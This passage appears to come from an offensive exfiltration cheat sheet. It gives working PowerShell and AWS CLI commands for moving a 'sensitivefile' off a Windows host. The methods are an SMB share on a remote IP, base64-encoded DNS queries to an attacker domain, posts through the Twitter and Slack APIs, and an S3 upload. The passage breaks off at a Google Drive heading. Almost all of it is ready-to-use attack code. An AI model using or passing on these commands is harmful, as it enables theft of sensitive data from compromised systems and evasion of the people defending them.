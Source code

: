 Exfiltrate Data Using SMB:

```
$SMBPath = "\\<remote_ip>\share"
New-PSDrive -Name "X" -PSProvider FileSystem -Root $SMBPath -Credential (New-Object System.Management.Automation.PSCredential("username", (ConvertTo-SecureString "password" -AsPlainText -Force)))
Copy-Item -Path "C:\Temp\sensitivefile_copy.txt" -Destination "X:\"
Remove-PSDrive -Name "X"
```

#### DNS

Exfiltrate Data Using DNS Queries:

```
$Data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt"))
$Query = "$($Data.Substring(0,253)).<attack_domain>"
Resolve-DnsName -Name $Query
```

# Data Exfiltration via Public Services

#### Twitter

Tweet Exfiltrated Data Using Twitter API:

```
$Tweet = "Exfiltrated Data: $(Get-Content -Path C:\Temp\sensitivefile_copy.txt)"
Invoke-RestMethod -Uri "https://api.twitter.com/2/tweets" -Method Post -Headers @{Authorization="Bearer <ACCESS_TOKEN>"} -Body @{text=$Tweet}
```

#### Slack

Send Exfiltrated Data to a Slack Channel:

```
$Data = Get-Content -Path "C:\Temp\sensitivefile_copy.txt"
$Body = @{channel="#channel_name"; text="Exfiltrated Data: $Data"} | ConvertTo-Json
Invoke-RestMethod -Uri "https://slack.com/api/chat.postMessage" -Method Post -Headers @{Authorization="Bearer <ACCESS_TOKEN>"; "Content-Type"="application/json"} -Body $Body
```

# Data Exfiltration via Cloud

#### AWS S3

Upload File to AWS S3:

```
aws s3 cp C:\Temp\sensitivefile_copy.txt s3://bucket_name/remote_file.txt
```

#### Google Drive

Upload Files to Google Drive Using `gdrive`:
